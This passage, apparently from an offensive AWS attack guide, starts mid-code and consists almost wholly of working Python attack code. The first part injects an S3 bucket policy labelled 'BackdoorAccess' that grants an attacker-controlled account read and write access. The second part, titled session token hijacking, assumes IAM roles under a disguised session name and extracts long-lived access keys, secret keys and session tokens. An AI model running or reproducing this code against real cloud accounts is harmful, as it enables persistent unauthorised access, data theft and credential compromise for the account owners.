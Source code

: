 ```python
                },
                {
                    "Sid": "BackdoorAccess",
                    "Effect": "Allow",
                    "Principal": {"AWS": "arn:aws:iam::ATTACKER-ACCOUNT:root"},
                    "Action": ["s3:GetObject", "s3:PutObject"],
                    "Resource": f"arn:aws:s3:::{bucket_name}/*",
                    "Condition": {
                        "StringLike": {
                            "s3:prefix": "logs/*"
                        }
                    }
                }
            ]
        }

        try:
            self.s3.put_bucket_policy(
                Bucket=bucket_name,
                Policy=json.dumps(malicious_policy)
            )
            print(f"Backdoor policy injected into {bucket_name}")
        except Exception as e:
            print(f"Policy injection failed: {e}")
```

## STS Token Manipulation

### Session Token Hijacking

```python
import boto3
import json
from datetime import datetime, timedelta

class STSTokenExploitation:
    def __init__(self):
        self.sts = boto3.client('sts')

    def extract_long_lived_tokens(self, role_arn, external_id=None):
        """Extract long-lived session tokens"""
        assume_role_args = {
            'RoleArn': role_arn,
            'RoleSessionName': 'legitimate-session-name',
            'DurationSeconds': 43200  # 12 hours max
        }

        if external_id:
            assume_role_args['ExternalId'] = external_id

        try:
            response = self.sts.assume_role(**assume_role_args)
            credentials = response['Credentials']

            # Extract token components for analysis
            token_analysis = {
                'access_key': credentials['AccessKeyId'],
                'secret_key': credentials['SecretAccessKey'],
                'session_token': credentials['SessionToken'],
                'expiration': credentials['Expiration'],
                'role_arn': role_arn
            }

```